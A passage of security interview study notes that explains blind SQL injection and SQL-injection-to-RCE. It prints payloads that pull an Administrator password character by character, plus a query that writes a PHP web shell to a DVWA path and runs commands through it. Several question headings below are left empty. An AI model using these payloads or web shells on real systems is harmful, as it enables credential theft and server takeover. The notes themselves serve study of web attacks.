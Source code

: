 To do this, we start with the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'r`
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'o`
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'o`
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

When a letter give a feedback it means that the letter is part of the password, many other techniques may be found [here](https://portswigger.net/web-security/sql-injection/blind).

### How can SQL Injection lead to remote code execution?

With SQL Injection we can write a php web shell file in order to exececute it later and inject commands.

`' union select 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/dvwa/cmd.php' #`

If this worked properly, we should now be able to access our shell via URL and by supplying a system command as a parameter.

`domain/path/cmd.php?cmd=whoami`

### Describe Remote Command Execution (RCE)

Remote code execution is a major security lapse, and the last step along the road to complete system takeover. After gaining access, an attacker will attempt to escalate their privileges on the server, install malicious scripts, or make your server part of a botnet to be used at a later date.

### How do you exploit the Shellshock vulnerability and what can an attacker do with it?

### How would you bypass DEP or ASLR

### Switch vs Router

### More Q&A from GitHb

### Simmetric key algorithm and Key lenght

https://danielmiessler.com/study/infosec_interview_questions/

https://github.com/justinltodd/security-interview-questions

https://github.com/DopplerHQ/awesome-interview-questions

https://github.com/gracenolan/Notes/blob/master/interview-study-notes-for-security-engineering.md
